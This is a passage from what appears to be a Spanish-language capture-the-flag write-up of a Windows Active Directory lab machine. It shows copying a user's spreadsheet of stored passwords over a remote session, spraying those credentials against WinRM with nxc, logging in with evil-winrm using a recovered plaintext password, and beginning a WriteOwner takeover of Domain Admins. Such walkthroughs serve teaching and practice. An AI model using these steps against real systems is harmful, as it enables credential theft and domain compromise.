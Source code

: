 <figure><img src="../../../../../.gitbook/assets/3156_vmware_on9DTLX7VZ.png" alt=""><figcaption></figcaption></figure>

Una vez sepamos que existe este archivo en el directorio C:\Users\Maria\Desktop. El siguiente paso será realizar una copia de ese archivo al directorio en el que nos encontramos actualmente.

Para ello modificaremos de nuevo el script anterior "test.ps1" e indicaremos que realice la copia del archivo a nuestro directorio actual.

Al volver a comprobar el directorio actual, verificamos que se nos ha copiado correctamente el archivo "Engines.xls" que procederemos a descargarnos a nuestra Kali.

```powershell
echo "copy C:\Users\Maria\Desktop\Engines.xls C:\ProgramData\test\" > test.ps1

dir

download Engines.xls
```

<figure><img src="../../../../../.gitbook/assets/3157_vmware_7Nd6gZ8agR.png" alt=""><figcaption></figcaption></figure>

Verificaremos que se nos ha descargado correcamente el archivo en nuestro equipo local. Procederemos a abrirlo a través de LibreOffice.

```bash
ls -l Engines.xls

libreoffice Engines.xls
```

<figure><img src="../../../../../.gitbook/assets/3158_vmware_VVZwXe9Xqv.png" alt=""><figcaption></figcaption></figure>

Al abrir el Excel descargado,verificamos que dispone de credenciales de diferentes sitios sobre la usuaria (maria@object.local).

<figure><img src="../../../../../.gitbook/assets/3159_vmware_PSu70iFsqG.png" alt=""><figcaption></figcaption></figure>

Guardaremos las credenciales en el archivo "passwords.txt".

<figure><img src="../../../../../.gitbook/assets/3160_vmware_ubjHmWhdDG.png" alt=""><figcaption></figcaption></figure>

Proabremos de validar si alguna de las credenciales obtenidas es válida para la usuaria, una vez verificado, procederemos a conectarnos al WinRM a través de _evil-winrm._

```bash
nxc winrm 10.10.11.132 -u 'maria' -p passwords.txt

evil-winrm -i 10.10.11.132 -u 'maria' -p 'W3llcr4ft3d_4cls'
```

<figure><img src="../../../../../.gitbook/assets/3162_vmware_nrmwg3rgmc.png" alt=""><figcaption></figcaption></figure>

### Abusing WriteOwner (Takeover Domain Admins Group)

Al volver a enumerar desde BloodHound, verificamos que el usuario que disponemos actualmente (maria@object.local) dispone de privilegios de _**WriteOwner**_ sobre el grupo (Domain Admins@object.local).
